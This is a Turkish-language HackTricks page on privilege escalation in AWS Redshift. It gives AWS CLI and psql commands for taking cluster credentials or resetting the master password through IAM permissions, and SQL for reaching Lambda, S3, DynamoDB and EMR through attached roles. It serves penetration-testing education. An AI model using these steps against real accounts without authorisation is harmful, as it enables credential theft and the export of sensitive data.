 # AWS - Redshift Privesc

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Redshift

RDS hakkında daha fazla bilgi için:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Bu izinlerle **tüm kümelerin bilgilerini** (isim ve küme kullanıcı adı dahil) alabilir ve **erişim için kimlik bilgilerini** elde edebilirsiniz:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potansiyel Etki:** Veritabanlarının içinde hassas bilgileri bulmak.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Bu izinlerle **tüm kümelerin bilgilerini** alabilir ve **erişim için kimlik bilgilerini** elde edebilirsiniz.\
Postgres kullanıcısının, kimlik bilgilerini almak için kullanılan **IAM kimliğinin izinlerine** sahip olacağını unutmayın.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potansiyel Etki:** Veritabanlarının içinde hassas bilgi bulma.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cli kullanarak dahili postgres (redshift) kullanıcısının **ana parolasını değiştirmek** mümkündür (Bunların ihtiyaç duyulan izinler olduğunu düşünüyorum ama henüz test etmedim):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potansiyel Etki:** Veritabanlarının içinde hassas bilgileri bulmak.

## Harici Servislere Erişim

{% hint style="warning" %}
Aşağıdaki tüm kaynaklara erişmek için **kullanılacak rolü belirtmeniz gerekecek**. Bir Redshift kümesi, **ARN'yi biliyorsanız** kullanabileceğiniz bir AWS rolü listesine sahip olabilir veya sadece atanan varsayılanı kullanmak için "**default**" olarak ayarlayabilirsiniz.

Ayrıca, [**burada açıklandığı gibi**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift ayrıca daha fazla erişim sağlamak için rolleri birleştirmeye (ilk rol ikincisini üstlenebildiği sürece) izin verir, ancak sadece onları bir **virgül** ile **ayırarak**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) adresinde açıklandığı gibi, redshift'ten bir lambda fonksiyonunu **çağırmak mümkündür**:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

[https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) adresinde açıklandığı gibi, **S3 bucket'larına okuma ve yazma** mümkündür:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

[https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) adresinde açıklandığı gibi, **dynamodb'dan veri almak** mümkündür:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Amazon DynamoDB tablosu, verileri sağlayan küme ile aynı AWS Bölgesinde oluşturulmalıdır, aksi takdirde Amazon DynamoDB tablosunun bulunduğu AWS Bölgesini belirtmek için [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) seçeneğini kullanmanız gerekir.
{% endhint %}

### EMR

Kontrol edin [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## Referanslar

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}
